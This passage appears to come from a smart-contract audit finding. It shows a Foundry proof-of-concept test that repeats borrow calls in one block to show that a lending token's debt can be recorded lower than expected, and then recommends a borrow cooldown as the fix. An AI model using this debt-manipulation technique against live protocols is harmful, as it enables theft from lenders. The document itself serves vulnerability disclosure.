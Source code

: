 ```solidity
        // Set user as a member in the UserManager
        userManager.setMember(user, true);
    }

    function testBorrowExploit() public {
        // Set initial borrow amount
        uint256 initialBorrowAmount = 1e18;

        // User borrows for the first time
        vm.startPrank(user);
        uToken.borrow(user, initialBorrowAmount);
        vm.stopPrank();

        // Check initial borrow balance
        uint256 initialBorrowBalance = uToken.borrowBalanceView(user);
        assertEq(initialBorrowBalance, initialBorrowAmount + uToken.calculatingFee(initialBorrowAmount));

        // User borrows multiple times in the same block
        vm.startPrank(user);
        uToken.borrow(user, initialBorrowAmount);
        uToken.borrow(user, initialBorrowAmount);
        uToken.borrow(user, initialBorrowAmount);
        vm.stopPrank();

        // Check final borrow balance
        uint256 finalBorrowBalance = uToken.borrowBalanceView(user);
        uint256 expectedBorrowBalance = initialBorrowAmount * 4 + uToken.calculatingFee(initialBorrowAmount) * 4;

        // Assert that the final borrow balance is not equal to the expected borrow balance
        assertLt(finalBorrowBalance, expectedBorrowBalance, "Exploit successful: Debt was manipulated");
    }
}
```
## Tool used

Manual Review

## Recommendation

To address the identified critical vulnerability, we recommend implementing the following measures:

1. **Cooldown Period Between Borrows:**
   Introduce a cooldown period to prevent rapid successive borrow actions.

   ```solidity
   mapping(address => uint256) public lastBorrowTimestamp;
   uint256 public constant BORROW_COOLDOWN = 1 minutes;

   function borrow(address to, uint256 amount) external {
       require(block.timestamp > lastBorrowTimestamp[msg.sender] + BORROW_COOLDOWN, "Borrow cooldown not elapsed");
       // ... rest of the borrow function ...
       lastBorrowTimestamp[msg.sender] = block.timestamp;
   }
   ```
